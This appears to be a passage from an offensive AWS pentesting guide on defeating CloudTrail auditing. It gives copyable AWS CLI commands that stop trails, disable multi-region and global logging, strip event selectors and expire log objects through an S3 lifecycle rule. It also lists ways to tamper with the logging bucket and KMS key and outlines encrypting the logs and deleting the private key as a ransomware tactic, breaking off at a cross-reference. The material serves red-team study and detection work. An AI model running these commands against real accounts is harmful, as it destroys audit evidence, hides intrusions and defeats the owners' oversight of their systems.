 #### Stop trails

```bash
aws cloudtrail stop-logging --name [trail-name]
```

#### Disable multi-region logging

{% code overflow="wrap" %}
```bash
aws cloudtrail update-trail --name [trail-name] --no-is-multi-region --no-include-global-services
```
{% endcode %}

#### Disable Logging by Event Selectors

{% code overflow="wrap" %}
```bash
# Leave only the ReadOnly selector
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[{"ReadWriteType": "ReadOnly"}]' --region <region>

# Remove all selectors (stop Insights)
aws cloudtrail put-event-selectors --trail-name <trail_name> --event-selectors '[]' --region <region>
```
{% endcode %}

In the first example, a single event selector is provided as a JSON array with a single object. The `"ReadWriteType": "ReadOnly"` indicates that the **event selector should only capture read-only events** (so CloudTrail insights **won't be checking write** events for example).

You can customize the event selector based on your specific requirements.

#### Logs deletion via S3 lifecycle policy

{% code overflow="wrap" %}
```bash
aws s3api put-bucket-lifecycle --bucket <bucket_name> --lifecycle-configuration '{"Rules": [{"Status": "Enabled", "Prefix": "", "Expiration": {"Days": 7}}]}' --region <region>
```
{% endcode %}

### Modifying Bucket Configuration

* Delete the S3 bucket
* Change bucket policy to deny any writes from the CloudTrail service
* Add lifecycle policy to S3 bucket to delete objects
* Disable the kms key used to encrypt the CloudTrail logs

### Cloudtrail ransomware

#### S3 ransomware

You could **generate an asymmetric key** and make **CloudTrail encrypt the data** with that key and **delete the private key** so the CloudTrail contents cannot be recovered cannot be recovered.\
This is basically a **S3-KMS ransomware** explained in:
